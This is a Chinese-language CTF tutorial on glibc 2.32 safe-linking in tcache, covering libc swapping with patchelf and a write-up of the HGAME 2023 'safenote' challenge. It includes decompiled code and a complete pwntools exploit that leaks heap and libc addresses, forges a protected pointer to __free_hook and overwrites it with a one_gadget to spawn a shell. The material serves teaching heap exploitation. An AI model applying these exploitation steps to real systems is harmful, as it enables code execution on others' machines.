

safe-linking

* * *

# safe-linking

## 背景知识

在低版本中，无论是 tcachebin 还是 fastbin，只要我们修改fd域就可以将对应地址放置到链表上，威胁程度非常高，在glibc2.32以后 saft-linking机制诞生 一定程度上缓解了这种现象的出现.

safe-Linking 就是对 next 指针进行了一些运算，规则是将 当前 free 后进入 tcache bin 堆块的用户地址 右移 12 位的值和 当前 free 后进入 tcache bin 堆块原本正常的 next 值 进行异或 ，然后将这个值重新写回 next 的位置

## 源码解析

```plain
/* We overlay this structure on the user-data portion of a chunk when
   the chunk is stored in the per-thread cache.  */
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;
} tcache_entry;

/* There is one of these for each thread, which contains the
   per-thread cache (hence "tcache_perthread_struct").  Keeping
   overall size low is mildly important.  Note that COUNTS and ENTRIES
   are redundant (we could have just counted the linked list each
   time), this is for performance reasons.  */
typedef struct tcache_perthread_struct
{
  uint16_t counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

tcache 相关结构体和glibc-2.32 的tcache 结构体并没有发生变化  
在libc2.32中，tcache\_put函数如下，可以发现相对于libc-2.31的代码，key的值还是赋值为tcache，但是e的next指针发生了变化，不再是下一个tcache的地址，而是引入了一个宏PROTECT\_PTR。

```plain
/* Caller must ensure that we know tc_idx is valid and there's room
   for more chunks.  */
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache;

  e->next = PROTECT_PTR (&e->next, tcache->entries[tc_idx]);
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}
```

相应的宏定义

```plain
/* Safe-Linking:
   Use randomness from ASLR (mmap_base) to protect single-linked lists
   of Fast-Bins and TCache.  That is, mask the "next" pointers of the
   lists' chunks, and also perform allocation alignment checks on them.
   This mechanism reduces the risk of pointer hijacking, as was done with
   Safe-Unlinking in the double-linked lists of Small-Bins.
   It assumes a minimum page size of 4096 bytes (12 bits).  Systems with
   larger pages provide less entropy, although the pointer mangling
   still works.  */
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
```

pos是指针本身的地址，ptr是指针的值，这里就是fd指针地址右移12位异或指针的值  
这意味着我们要绕过检查需要获取堆的地址

## 利用姿势

```plain
当我们只释放一个chunk 到 tcache 链表中时，低版本的 fd 指针的值会为0 ，但在safe-linking机制下，会将fd指针地址右移12位异或0的值，然后获得最终fd的值，所以我们可以利用fd的值去反推heap段的地址(heap段是从当前页开始的，后三位固定是0，只要申请的chunk的大小不是太打就能直接获得heap段地址)
```

## 更换ELF程序的glibc

需要两个工具：glibc-all-in\_one 和 patchelf

```plain
glibc-all-in_one：
1.git clone https://github.com/matrix1001/glibc-all-in-one
2.cd glibc-all-in-one
3. ./update_list
4. cat list
```

效果截图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230714145339-29b07f5e-2213-1.png)  
下载list列表中的：（这里一定要找对libc，注意小版本）  
./download 2.31-0ubuntu9.9\_amd64

[](https://xzfile.aliyuncs.com/media/upload/picture/20230714145348-2ee4f7a2-2213-1.png)  
下载old\_list列表中的：  
/download\_old 2.32-0ubuntu3\_amd64

[](https://xzfile.aliyuncs.com/media/upload/picture/20230714145355-33601fb4-2213-1.png)  
这样就下载成功了  
文件夹里面已经有我们需要的库了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230714145432-49236964-2213-1.png)

```plain
patchelf：
1.git clone https://github.com/NixOS/patchelf
2.cd patchelf
3.  ./bootstrap.sh
4.  ./configure
5.make
6.make check
7.sudo make install
```

```plain
先生成符号连接然后再patchelf
sudo ln ld-2.32.so /lib64/ld-2.32.so
然后设置解释器和libc，这样就能进行debug
设置解释器
patchelf --set-interpreter /lib64/ld-2.32.so ./pwn
设置libc
patchelf --replace-needed libc.so.6 ~/glibc-all-in-one/libs/2.32-0ubuntu3.2_amd64/libc-2.32.so ./pwn
```

效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230714145454-56518580-2213-1.png)

```plain
也可以直接在exp中引入
p=process(['ld-2.32.so',"./pwn"],env={"LD_PRELOAD":'./libc-2.32.so'})

然后想在gdb调试还要把 .debug 文件复制到题目文件夹
cp -r ~/glibc-all-in-one/libs/2.32-0ubuntu3.2_amd64/.debug ./.debug
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230714145508-5efd1bd6-2213-1.png)

打开gdb，然后输入 set debug-file-directory .debug/ 就可以调试了

## HGAME 2023 week3 safenote

### ida

```plain
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(argc, argv, envp);
  while ( 1 )
  {
    menu();
    __isoc99_scanf("%d", &v4);
    switch ( v4 )
    {
      case 1:
        add_note();
        break;
      case 2:
        delete_note();
        break;
      case 3:
        edit_note();
        break;
      case 4:
        show_note();
        break;
      case 5:
        exit(0);
      default:
        puts("Wrong choice!");
        break;
    }
  }
}
```

```plain
unsigned __int64 add_note()
{
  unsigned int v0; // ebx
  unsigned int v2; // [rsp+0h] [rbp-20h] BYREF
  _DWORD size[7]; // [rsp+4h] [rbp-1Ch] BYREF

  *(_QWORD *)&size[1] = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v2);
  if ( v2 <= 0xF )
  {
    if ( notes[v2] )
    {
      printf("This page has been used.");
    }
    else
    {
      printf("Size: ");
      __isoc99_scanf("%u", size);
      if ( size[0] <= 0xFFu )
      {
        v0 = v2;
        notes[v0] = malloc(size[0]);
        note_size[v2] = size[0];
      }
      else
      {
        puts("Too big.");
      }
    }
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return __readfsqword(0x28u) ^ *(_QWORD *)&size[1];
}
```

```plain
unsigned __int64 delete_note()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v1);
  if ( v1 <= 0xF )
  {
    if ( notes[v1] )
      free((void *)notes[v1]);
    else
      puts("Page not found.");
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

```plain
unsigned __int64 edit_note()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v1);
  if ( v1 <= 0xF )
  {
    if ( notes[v1] )
    {
      printf("Content: ");
      read(0, (void *)notes[v1], (unsigned int)note_size[v1]);
    }
    else
    {
      puts("Page not found.");
    }
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

```plain
unsigned __int64 show_note()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v1);
  if ( v1 <= 0xF )
  {
    if ( notes[v1] )
      puts((const char *)notes[v1]);
    else
      puts("Page not found.");
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

题目环境glibc2.32，然后漏洞很明显，只不过更改环境比较麻烦，然后就是比以前多了safe-linking机制

### 思路

这个题思路很简单，就是泄露完heap后绕过后面safe-linking，然后直接打free\_hook

### 详细流程

因为我用的ubuntu20，所以这里第一步就是按照上面演示的方法去更换libc，然后就可以开始做题了

```plain
for i in range(7):
    add(i,0x80)

add(7,0x80)
add(8,0x80)

delete(0)
show(0)

heap_addr=u64(p.recv(5)[-6:].ljust(8,'\x00'))<<12
leak('heap_addr ',heap_addr)
```

泄露个堆基地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20230714145551-78696d54-2213-1.png)

```plain
for i in range(1,7):
    delete(i)

delete(7)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230714145603-7f9f7168-2213-1.png)  
'\\x00'有截断，所以先覆盖

```plain
edit(7,'\x11')
show(7)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-0x1e3c11
leak('libc_base ',libc_base)
free_hook=libc_base+libc.sym['__free_hook']
leak('free_hook',free_hook)
ogs=[0xdf54c,0xdf54f,0xdf552] 
og=libc_base+ogs[1]
leak('og',og)
```

这里找清楚，libc基地址是下面那个

[](https://xzfile.aliyuncs.com/media/upload/picture/20230714145623-8b5e92b8-2213-1.png)

```plain
pl=(heap_addr>>12)^(free_hook)
edit(6,p64(pl))
```

利用原理绕过safe-linking

[](https://xzfile.aliyuncs.com/media/upload/picture/20230714145641-95f37b3a-2213-1.png)

```plain
add(9,0x80)
add(10,0x80)
edit(10,p64(og))
delete(0)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230714145809-cad51796-2213-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=process('./pwn')
p=process(['ld-2.32.so',"./pwn"],env={"LD_PRELOAD":'./libc-2.32.so'})
#p=remote('node3.anna.nssctf.cn',28438)
elf = ELF('./pwn')
libc=ELF('./libc-2.32.so')
#libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')


def add(idx,size):
    sla('>',str(1))
    sla('Index: ',str(idx))
    sla('Size: ',str(size))


def delete(idx):
    sla('>',str(2))
    sla('Index: ',str(idx))

def show(idx):
    sla('>',str(4))
    sla('Index: ',str(idx))

def edit(idx,content):
    sla('>',str(3))
    sla('Index: ',str(idx))
    sa('Content: ',content)


def duan():
    gdb.attach(p)
    pause()


for i in range(7):
    add(i,0x80)

add(7,0x80)
add(8,0x80)

delete(0)
show(0)

heap_addr=u64(p.recv(5)[-6:].ljust(8,'\x00'))<<12
leak('heap_addr ',heap_addr)

for i in range(1,7):
    delete(i)

delete(7)

edit(7,'\x11')
show(7)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-0x1e3c11
leak('libc_base ',libc_base)

free_hook=libc_base+libc.sym['__free_hook']
leak('free_hook',free_hook)
system=libc_base+libc.sym["system"]
ogs=[0xdf54c,0xdf54f,0xdf552] 
og=libc_base+ogs[1]
leak('og',og)

pl=(heap_addr>>12)^(free_hook)
edit(6,p64(pl))

add(9,0x80)
add(10,0x80)
edit(10,p64(og))
delete(0)


itr()
```
